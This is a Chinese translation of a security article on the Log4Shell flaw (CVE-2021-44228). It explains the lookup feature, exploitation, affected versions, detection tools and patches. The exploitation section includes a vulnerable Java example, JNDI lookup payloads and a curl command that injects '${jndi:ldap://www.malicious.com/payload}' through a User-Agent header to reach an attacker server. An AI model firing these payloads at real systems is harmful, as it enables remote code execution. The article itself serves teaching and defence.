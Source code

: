 # Log4j 零日漏洞:利用、检测和缓解

> 原文：<https://infosecwriteups.com/log4j-zero-day-vulnerability-exploitation-detection-mitigation-9667908857b4?source=collection_archive---------1----------------------->

## CVE-2021-44228:log 4 shell/log 4 jam

![](img/0ab218af9dc0708d72a3e8ebadcc8e8d.png)

克林特·帕特森在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

# 概观

您可能已经听说过在 Apache Log4j 2 Java 库中发现的零日漏洞，这个漏洞在互联网上引起了轩然大波。在这篇文章中，我打算深入讨论这个漏洞及其影响、检测和缓解。

## Log4j 是什么？

Log4j 是一个快速、可靠和灵活的日志框架，用 Java 编写，是 Apache 日志服务的一部分。它基本上是一个用于日志记录的开源 Java API，用于跟踪应用程序中的活动。

## Log4j 架构

按照 apache.org 的说法，“*使用 Log4j 2 API 的应用程序将向日志管理器请求一个带有特定名称的日志记录器。日志管理器将定位适当的 LoggerContext，然后从中获取日志程序。LoggerConfig 对象是从配置中的记录器声明创建的。LoggerConfig 与实际传递日志事件的 Appenders 相关联"*

![](img/8bc441b41aa0fec5c93d2a8dee740b5f.png)

Log4j 架构[来源:[https://logging.apache.org](https://logging.apache.org)

# 剥削

让我们来看看这个漏洞是如何被利用的。它很容易被利用，这使得它更加危险和严重。

该漏洞是由于不正确的输入处理导致的远程代码执行(RCE ),使得攻击者无需验证即可获得目标系统的完全访问权限。为了理解这个漏洞，让我们看一个利用 Log4j 的简单 Java 代码示例。

```
**import** java.util.*; **import** org.apache.logging.log4j.Logger;
**import** org.apache.logging.log4j.LogManager;
**public** **class** poc{
**static** Logger logger = LogManager.getLogger(poc.**class**);
 **public** **static** **void** main(String args[]) {
  System.out.println("Enter your name:");
  Scanner sc = new Scanner(System.in);
  String name = sc.nextLine();
  logger.error(name);
  System.out.println("Hi "+name);
 }
}
```

上面的代码片段只是从用户那里获取一个输入名称，使用 log4j 将该名称记录为一个错误并打印出来。

让我们来看看几个示例输出-

![](img/a8016ad167fa8ff9bef5d59fd7d659ff.png)

用户输入“Bob ”,它只是被记录下来并被回显出来

Log4j 有一个名为“lookups”的特性，可以根据${}中包含的 lookup 中指定的参数来获取和添加某些值到 log4j 配置中。
它们的形式为= ${java:os}这里，Java OS 版本将被获取并作为一个值添加。

这很容易被攻击者滥用，因为没有输入验证，用户完全控制 log4j 记录的字符串。攻击者可以简单地输入查找来从服务器端提取信息，甚至执行命令。让我们看看上面看到的示例代码的另一个用户输入-

![](img/c958b9bb0b71abaf4092da65b80af2eb.png)

输入查找，替换并记录相应的值

这里，字符串＄{ env:USER }用于提取服务器上的用户环境变量，当 Log4j 使用查找来解析和获取该值时，它会显示在我们的输出中。现在我们已经对漏洞利用的工作原理有了基本的了解，让我们放大影响，看看远程查找！

Log4j 还有另一个功能叫做 **Java 命名和目录接口(JNDI)** ，它主要为应用程序提供目录服务，可以用来从远程服务器获取数据，并支持 LDAP、RMI 等协议。例如，使用远程查找与 LDAP 服务器通信可以通过使用:**$ { JNDI:LDAP://<server-IP>/context-name }**实现

攻击者可以滥用此功能远程执行代码。例如，像这样添加一个远程查找将使 Log4j 到达攻击者选择的远程服务器来提取数据: **${jndi:ldap://www .恶意. com/payload}**

攻击者只需使用 Log4j 获取易受攻击的应用程序，记录作为用户输入输入的 jndi 查找，并托管恶意服务器来交付有效负载。这可以通过攻击 web 请求中常见的日志字段(如用户代理头)并在其中嵌入 jndi 有效负载来实现。在用户代理头中嵌入有效负载的示例 curl 请求如下所示:

```
curl -H "User-Agent: ${jndi:ldap://www.malicious.com/payload}" target.com
```

当带有嵌入式远程查找的用户代理登录到目标服务器上，并且 Log4j 解析有效负载时，将发送一个请求从通过 jndi 指定的 LDAP 服务器获取数据。这使得攻击者能够通过 LDAP referrer 托管一台服务器，该服务器将传入 LDAP 的请求转发到另一台处理该请求的 HTTP 服务器，并使用有效负载响应目标服务器，以获得目标应用程序后端服务器上的外壳。

![](img/d6d8bde8a801862b0c01d9db0ec79567.png)

利用工作流

下面的 [**repo**](https://github.com/mbechler/marshalsec) 由 *mbechler* 提供了一个 Java 实现来设置一个 LDAP referrer 来测试这个漏洞。

**该漏洞的概念验证可在此处找到**:[https://github.com/xiajun325/apache-log4j-rce-poc](https://github.com/xiajun325/apache-log4j-rce-poc)

# 影响

**受影响的 Log4j 版本**:版本 2.0 到版本 2.14.1。
有数以百万计的应用程序利用 Java，这构成了一个巨大的攻击面。许多大型软件公司和在线服务使用 Log4j 库进行日志记录，包括 Amazon、Apple、Cisco、Cloudflare、ElasticSearch、Red Hat、Steam、Tesla、Twitter 等等。也可以在 这里找到一个易受 Log4Shell 攻击的已验证攻击面列表 [***。之所以难以修补和检测，是因为这可能存在于应用程序中使用的多个依赖项和第三方服务中。不同的公司和组织将不得不共同努力来修补他们各自的应用程序，以确保所有涉及的依赖关系都被覆盖并被正确地修补以解决这一漏洞。***](https://github.com/YfryTchsGD/Log4jAttackSurface)

# 侦查

许多优秀的检测工具和规则已经由各种安全研究人员和组织建立并在线共享，它们可以帮助我们在应用程序中检测 Log4Shell。让我们来看看其中的一些

https://log4shell.huntress.com**女猎手实验室 log4shell 测试器**—
该测试器提供具有唯一标识符的有效负载，接受来自易受攻击应用的 LDAP 连接，并显示其接收连接的 IP 地址。我们上面讨论的示例代码也可以用来测试这一点。

![](img/c58ab52e8a5315139897857e46fdd95c.png)

**Florian Roth 的 Log4Shell 检测器**—[https://github.com/Neo23x0/log4shell-detector](https://github.com/Neo23x0/log4shell-detector)
这是一个由 Florian Roth 创建的自动化 python 脚本，通过匹配 jndi 有效负载来检测 Log4Shell。该脚本主要分析日志，如果以下字符串中的所有字符以任何顺序匹配，就会触发检测。该脚本还考虑了各种形式的基于 URL 的编码:`${jndi:ldap:`

**Florian Roth 的 Yara Rules—**[https://github . com/neo 23 x 0/signature-base/blob/master/Yara/expl _ log4j _ CVE _ 2021 _ 44228 . yar](https://github.com/Neo23x0/signature-base/blob/master/yara/expl_log4j_cve_2021_44228.yar)
Yara Rules 匹配常见的有效载荷字符串和在野外发现的模式。

LunaSec 的 Log4Shell 命令行工具——【https://github.com/lunasec-io/lunasec/releases】T2/
LunaSec 还构建了一个命令行实用程序来检查**。震击器**和**。警告项目目录中的文件，并通过匹配已知易受攻击的 log4j 类的散列来检查它们是否易受攻击。哈希列表可以在 [***这里***](https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes) 找到。**

**Log4Shell Scanner Burp Suite 插件—** Burp Suite 的 Pro 版也有一个插件可以扫描 Log4Shell。我没有亲自用过，但你可以试一试！

# 减轻

针对此漏洞的最佳和最有效的修复方法是将 log4j 依赖项升级到 Apache 发布的最新版本，即 **log4j 2.16.0** 。最新版本解决了漏洞，提高了 log4j 的整体安全性。确保正在运行的 Java 实例是最新的也是一个好主意。

如果不可能立即安装补丁，可以在安装补丁的同时，暂时采用以下任何一种解决方法—

*   通过将环境变量**LOG4J _ FORMAT _ MSG _ NO _ LOOKUPS**设置为 **true** ，可以全局禁用消息查找
*   运行易受攻击的 Java 应用程序时，还可以通过使用命令行标志**‐dlog 4j 2 . formatmsgnolookups = True**来禁用特定执行的查找:**Java‐dlog 4j 2 . formatmsgnolookups = True-jar app . jar**
*   另一种方法是从任何使用 log4j 的 Java 应用程序中找到并删除 **JndiLookup** 类，这样就不会触发 jndi 查找。

如果你想了解更多关于 Log4Shell 的信息，请查看约翰·哈蒙德的精彩视频演示 [***这里***](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1187s) 。TryHackMe 和 John Hammond 还联手创建了一个探索 Log4j 漏洞的房间 [***这里***](https://tryhackme.com/room/solar) 。

感谢您的阅读，祝您狩猎愉快！🐞